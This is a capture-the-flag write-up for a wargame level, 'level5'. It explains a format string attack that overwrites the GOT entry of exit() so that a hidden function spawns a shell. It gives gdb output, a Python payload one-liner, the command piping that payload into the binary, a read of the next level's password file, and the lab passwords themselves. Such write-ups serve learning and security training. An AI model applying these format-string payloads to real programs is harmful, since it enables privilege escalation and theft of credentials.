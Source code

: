 # Level5
```bash
su level5 #0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Steps
In this binary we can see that function `o()` calls `/bin/sh` however it is not part of the execution flow.     
We also notice that function `n()` called by `main` uses `printf` and `exit`. 

Since RELRO (Relocation Read-Only) protection is off, we can use a **format string attack** to modify the **Global Offset Table**.    
By replacing the `.got.plt` relocation address of `exit()` to `o()`, the `n()` function will call `o()` instead of `exit()` and open a shell prompt for us.    

External function call -> PLT (Procedure Linkage Table) -> GOT (Global Offset Table).

First we must find `exit()` in the GOT
```bash
gdb level5
(gdb) disass exit

Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.

(gdb) p *0x08049838 
$1 = 134513622	; 0x80483d6 this is the exit relocation address in the GOT that we want to replace with o() address
```

```bash
python -c "print '\x08\x04\x98\x38'[::-1] + '%134513824d' + '%4\$n'" > /tmp/inj5
cat /tmp/inj5 - | ./level5 | tr -d " "

cat /home/user/level6/.pass
8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

